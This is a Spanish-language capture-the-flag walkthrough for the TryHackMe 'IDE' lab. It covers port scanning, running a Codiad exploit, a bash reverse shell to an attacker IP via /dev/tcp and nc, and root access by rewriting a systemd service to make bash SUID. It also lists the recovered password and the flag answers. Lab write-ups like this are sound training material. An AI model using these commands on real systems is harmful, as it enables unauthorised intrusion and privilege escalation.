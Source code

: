 # Máquina IDE

Dificultad --> Facil 

Instrucciones --> **Para poder resolver esta máquina tienes que registrarte en la página de TryHackMe y buscarla por el nombre de IDE**

'

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

'

## 1.Reconocmiento

![image](https://github.com/user-attachments/assets/2cfb7b62-1365-4b8f-a0e2-c160ccdde0ae)


Escaneando puertos y sus versiones utilizando el comando de nmap con diferentes parámetros

    sudo nmap -p- --open -sS -n -Pn -vvv 10.10.31.183 -T4
    
![image](https://github.com/user-attachments/assets/cdb49dd4-1483-4b66-8679-7b873a4235b9)


![image](https://github.com/user-attachments/assets/16abe497-965d-4660-8dc5-7e24049ae4d0)


    sudo nmap --open -sS -n -Pn -A -p 21,22,80,62337 -vvv 10.10.31.183 -T4


![image](https://github.com/user-attachments/assets/e3cd2024-b206-44d2-9987-86411d1ba7ed)

![image](https://github.com/user-attachments/assets/d54ba075-408d-42cf-894a-f3f38f0046ec)

![image](https://github.com/user-attachments/assets/8a20035b-1916-42e5-8f47-d5e28012af89)

### Resumen de la Información Obtenida

|IP             | Sistema OPerativo    | Puertos/Servicios        | 
|:------------: |:--------------------:| :-----------------------:| 
| 10.10.31.183  |Linux                 | 21  Ftp vsftpd 3.0.3     |
|               |                      | 22 Openssh 7.6p1         |
|               |                      | 80 hhttp apache 2.4.29   |
|               |                      | 62337 http apache 2.4.29 |


## 2. Análisis de Vulnerabilidades / Debilidades


Como tenemos un servidor http abrimos la dirección ip con el puerto 62337 e inspeccionando el código de la página encontramos que tenemos un Codiad 2.8.4


![image](https://github.com/user-attachments/assets/8fa820de-ef0a-4d24-abc6-edcc3af3d9e2)


Accedemos por ftp


![image](https://github.com/user-attachments/assets/973086c1-a5b8-41d1-889a-81ce35ce4349)


Una vez adentro nos movemos hacia atras hasta ncontrar un directorio que su nombre es un guion, el cual lo vamos a descargar en nuestra maquina


![image](https://github.com/user-attachments/assets/36fc4cd1-3b31-414e-948e-98a2110b1da2)


Nos  salimos, buscamos el archivo en nuestra maquina y lo copiamos con otro nombre archivo.txt, luego leemos su contenido con el comando cat.


![image](https://github.com/user-attachments/assets/368dd05d-5f11-45bb-b977-40c4b4b1e797)


## 3. Explotación

Podemos ver que el mensaje dice que hay dos usuario uno john y otro drac. Y que alguno de ellos tiene una contraseña por defecto.

ahora vamos a clonar un repositorio de GitHub para la vulnerabilidad de codiad


![image](https://github.com/user-attachments/assets/ba6e88f9-c61b-4ba0-9a8c-e2a1d0094fc4)


Creamos una carpeta y descargamos el exploit


![image](https://github.com/user-attachments/assets/3cd935c3-7bed-4ba3-b710-5732a43c47a2)


Ya tenemos el exploit si ejecutamos python2 exploit.py nos dirá como es la sintaxis correcta para poder ejecutarlo


![image](https://github.com/user-attachments/assets/805d1feb-eb7f-4c2e-a904-4913bcdace6f)


    python2 exploit.py http://10.10.152.247:62337/ john password 10.11.86.141 4444 linux


![image](https://github.com/user-attachments/assets/85a05733-5cfe-4a67-a9a4-de5aa25404df)


Una vez ejecutado nos dice que tenemos que ejecutar los siguientes comando en ventanas diferentes:


    echo 'bash -c "bash -i >/dev/tcp/10.11.86.141/4445 0>&1 2>&1"' | nc -lnvp 4444


![image](https://github.com/user-attachments/assets/97e82b16-3fc4-4dac-94b9-4ed979829192)


    nc -lnvp 4445


![image](https://github.com/user-attachments/assets/2dad69eb-6a3e-4c91-b542-c842595b464b)


Y proceder a darle “ y ”  


![image](https://github.com/user-attachments/assets/c14d3830-6f1e-47bf-8b93-dd92ccb2fa34)

![image](https://github.com/user-attachments/assets/1b9f598d-0558-422d-b992-0c511b3a995a)


ya una vez obtenida la conexión nos vamos al directorio raíz para buscar la carpeta home, en la carpeta drac encontramos la bandera user pero no tenemos permiso para leerla, usamos el comando:

    cat .bash_history

el cual nos permite ver un historial de los comando ejecutados en la maquina, tenemos una posible contraseña la cual es : **Th3dRaCULa1sR3a** 🔑


![image](https://github.com/user-attachments/assets/c9cae490-64b7-48fd-a2d4-0d8ad368af89)


Intentamos acceder por ssh con el usuario drac y la contraseña que conseguimos teniendo éxito


![image](https://github.com/user-attachments/assets/90a8cc57-f4e6-4743-97ac-8cdf25a474b5)


Ahora si podemos ver el contenido de la bandera user.txt 🚩 : 02930d21a8eb009f6d26361b2d24a466


![image](https://github.com/user-attachments/assets/ea291d66-7950-4d12-a5d0-5aa52c4926c0)


## 4. Escalación de privilegios

Ejecutamos el siguiente comando para ver como podemos escalar privilegios

    sudo -l


![image](https://github.com/user-attachments/assets/cc673bb8-ca7e-4f64-8a8e-8cb9cc106dc7)


Buscamos como escalar privilegios a través de esta vulnerabilidad 

/usr/sbin/service vsftpd restart


![image](https://github.com/user-attachments/assets/449f9fc2-c55c-49fb-94ed-5d21b19d3c5d)


Ahora vamos a modificar el archivo vsftpd service con el siguiente comando:

    nano /lib/systemd/system/vsftpd.service

    ExecStart=/bin/chmod 4777 /bin/bash

![image](https://github.com/user-attachments/assets/fd060e35-cc1d-4c6e-98b7-129f78eb578a)


Ejecutamos el comando y colocamos la contraseña de drac: 

    systemctl daemon-reload


![image](https://github.com/user-attachments/assets/0643083a-1297-44fe-a84d-efdcaa8c269f)


Y por ultimo el siguiente comando 

    sudo /usr/sbin/service vsftpd restart

Ahora vamos a buscar el SUID con que vamos a escalar privilegios

    find / -perm -4000 2>/dev/null


![image](https://github.com/user-attachments/assets/cc3bd6d8-a392-497b-8f0c-623b65ffcac4)



Buscamos en la pagina GtfoBins y ejecutamos el codigo que se nos indica

    bash -p


Ahora ya tenemos acceso como root y podemos ver el contenido de la bandera root 🚩:ce258cb16f47f1c66f0b0b77f4e0fb8d



## 5.Banderas 🏁

|user.txt | 02930d21a8eb009f6d26361b2d24a466 |
|:-------:|:--------------------------------:|
|root.txt | ce258cb16f47f1c66f0b0b77f4e0fb8d |


## 6.Extra 🚨

Acá las respuesta del cuestionario de TryHackMe 


user.txt 

02930d21a8eb009f6d26361b2d24a466 

root.txt 

ce258cb16f47f1c66f0b0b77f4e0fb8d 











